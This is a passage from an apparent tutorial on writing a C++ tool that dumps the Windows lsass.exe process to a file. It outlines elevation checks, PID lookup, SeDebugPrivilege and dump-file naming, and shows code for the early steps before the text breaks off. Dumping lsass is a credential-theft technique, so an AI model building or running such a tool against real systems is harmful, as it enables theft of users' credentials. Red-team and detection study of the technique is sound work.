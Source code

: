 # Code

To reach our goal, we will create a code that will:

- Check we are running an elevated process
- Get the lsass.exe PID
- Generate the file name or get it from the input arguments
- Create the output file with the correct name
- Enable the SeDebugPrivilege privilege
- Get a handle to the lsass.exe process
- Dump the process



## Main function

First we need to check if the process is running with administrative privileges, as it will not work otherwise. We will do this with the function IsElevatedProcess():

```cpp
if (!IsElevatedProcess()) {
	wcout << "[-] Error: Execute with administrative privileges." << endl;
	return 1;
}
```

Then, as we are in an elevated process, we can retrieve the lsass.exe process ID with the function getProcessPid():

```cpp
DWORD processPID = getProcessPid();
wcout << "[+] Process PID: " << processPID << endl;
```

We will then generate a name for the dump file we will create, and also a pointer to it.
- If there is an input argument with a file name, we will use that
- If not, we will generate a file name using the hostname and date.
	- Format: hostname_DD-MM-YYYY-HHMM (for example, hostname_01-12-2021-1200)

```cpp
string filename;
if (argc >= 2) {
	filename = argv[1];
}
else {
	string hostname = getHostname();
	filename = getFileName(hostname);
}
std::wstring stemp = std::wstring(filename.begin(), filename.end());
LPCWSTR pointer_filename = stemp.c_str();
```

With that dump file name, we will create the file (or overwrite it if it already exists!) with the function [CreateFile()](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea):
